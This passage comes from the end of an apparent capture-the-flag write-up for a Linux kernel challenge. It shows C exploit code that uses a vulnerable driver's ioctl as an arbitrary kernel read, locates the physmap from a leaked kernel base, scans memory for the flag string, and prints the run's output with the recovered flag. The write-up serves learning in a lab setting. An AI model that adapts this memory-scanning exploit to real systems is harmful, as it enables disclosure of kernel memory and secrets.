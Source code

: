 ## physmap for the win

Now we know where the kernel .text is we can deduce by it the addres of the
physmap and then we can simply look for the `icft` pattern while reading the
whole physmap. Which gives:  
```c  
   printf("[!] physmap at %lx\n", kernel_text + 0x2c3b000);

   while (1) {  
       req.kptr = kernel_text + 0x2c00000 + offt;  
       if (ioctl(fd, 0x1337, &req)) {  
           return -1;  
       }

       for (size_t i = 0; i < 0x100; i += 4) {  
           if (!memcmp(req.buf+i, "ictf", 4)) {  
               printf("flag: %s\n", (char* )(req.buf+i));  
           }  
       }

       offt += 0x100;  
   }  
```

## PROFIT

Finally here we are:  
```  
mount: mounting host0 on /tmp/mount failed: No such device  
cp: can't stat '/dev/sda': No such file or directory

Boot time: 2.78

---------------------------------------------------------------  
                    _                              
                   | |                             
      __      _____| | ___ ___  _ __ ___   ___     
      \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \    
       \ V  V /  __/ | (_| (_) | | | | | |  __/_   
        \_/\_/ \___|_|\___\___/|_| |_| |_|\___(_)  
  
 Take the opportunity. Look through the window. Get the flag.  
---------------------------------------------------------------  
/ # ./exploit  
[!] kernel .text found at ffffffff8de00000  
[!] physmap at ffffffff90a3b000  
flag: ictf{th3_real_flag_was_the_f4ke_st4ck_canaries_we_met_al0ng_the_way}  
```

# Annexes
